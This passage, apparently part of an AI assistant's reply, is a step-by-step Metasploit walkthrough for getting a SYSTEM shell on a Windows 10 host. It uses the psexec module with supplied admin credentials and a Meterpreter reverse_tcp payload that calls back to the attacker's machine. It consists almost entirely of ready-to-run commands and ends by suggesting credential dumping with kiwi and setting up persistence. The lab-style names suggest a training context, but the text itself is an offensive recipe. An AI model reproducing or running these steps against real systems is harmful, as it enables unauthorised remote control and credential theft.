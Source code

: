 **SYSTEM shell on a Windows 10 machine from Kali** using **Metasploit and PsExec**:

---

## 🛠️ Step-by-Step: SYSTEM Shell on Windows 10 from Kali

### ✅ Prerequisites
- Kali Linux machine with `Metasploit Framework` installed
- Windows 10 target with:
  - IP: `172.22.117.20`
  - Username: `tstark`
  - Password: `Password!`
  - Domain: `megacorpone`
- You must have SMB access and valid admin credentials

---

### 1. **Start Metasploit**
```bash
msfconsole
```

---

### 2. **Use the PsExec module**
```bash
use exploit/windows/smb/psexec
```

---

### 3. **Set required options**
```bash
set RHOSTS 172.22.117.20
set SMBUser tstark
set SMBPass Password!
set SMBDomain megacorpone
set LHOST 172.22.117.100   # Your Kali IP
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

> 🔁 If port 4444 is taken, use another like 5555:
```bash
set LPORT 5555
```

---

### 4. **Run the exploit**
```bash
run
```

> This should give you a **Meterpreter session as SYSTEM**.

---

### 5. **Verify SYSTEM access**
```bash
getuid
```

> You should see something like:
```
Server username: NT AUTHORITY\SYSTEM
```

---

You now have full SYSTEM-level shell on the target. From here, you can run `load kiwi`, dump credentials, establish persistence, etc.
